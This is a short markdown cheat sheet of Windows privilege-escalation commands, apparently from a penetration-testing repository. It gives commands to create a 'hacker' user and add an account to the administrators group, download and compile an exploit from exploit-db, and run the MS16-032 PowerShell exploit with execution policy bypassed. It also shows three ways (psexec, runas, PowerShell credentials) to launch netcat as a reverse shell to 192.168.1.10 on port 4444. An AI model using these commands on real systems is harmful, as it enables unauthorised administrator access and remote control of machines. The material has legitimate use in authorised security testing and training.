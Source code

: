 # Useful Command for Windows Privilage Escalation


Windows Privilege Escalation resource http://www.fuzzysecurity.com/tutorials/16.html

## User Add and Admin Group Add

```
net user hacker hacker /add 
net localgroup administrators IWAM_BOB /add
```

* Python Complier exe

```
 pip install pyinstaller
 wget -O exploit.py http://www.exploit-db.com/download/31853  
 python pyinstaller.py --onefile exploit.py
```

* Powershell exploit run in cmd

```
powershell -ExecutionPolicy ByPass -command "& { . C:\Users\Public\Invoke-MS16-032.ps1; Invoke-MS16-032 }"
```

* Windows Run As

1 - Sysinternal psexec

```
C:\>psexec64 \\COMPUTERNAME -u Test -p test -h "c:\users\public\nc.exe -nc 192.168.1.10 4444 -e cmd.exe" 
```

2 - runas.exe

```
C:\>C:\Windows\System32\runas.exe /env /noprofile /user:Test "c:\users\public\nc.exe -nc 192.168.1.10 4444 -e cmd.exe"
 Enter the password for Test:
```

3 - Powershell 

```
$username = '<username here>'
$password = '<password here>'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
Start-Process -FilePath C:\Users\Public\nc.exe -NoNewWindow -Credential $credential -ArgumentList ("-nc","192.168.1.10","4444","-e","cmd.exe") -WorkingDirectory C:\Users\Public
 ```

To start:

```
powershell -ExecutionPolicy ByPass -command "& { . C:\Users\public\PowerShellRunAs.ps1; }"
```
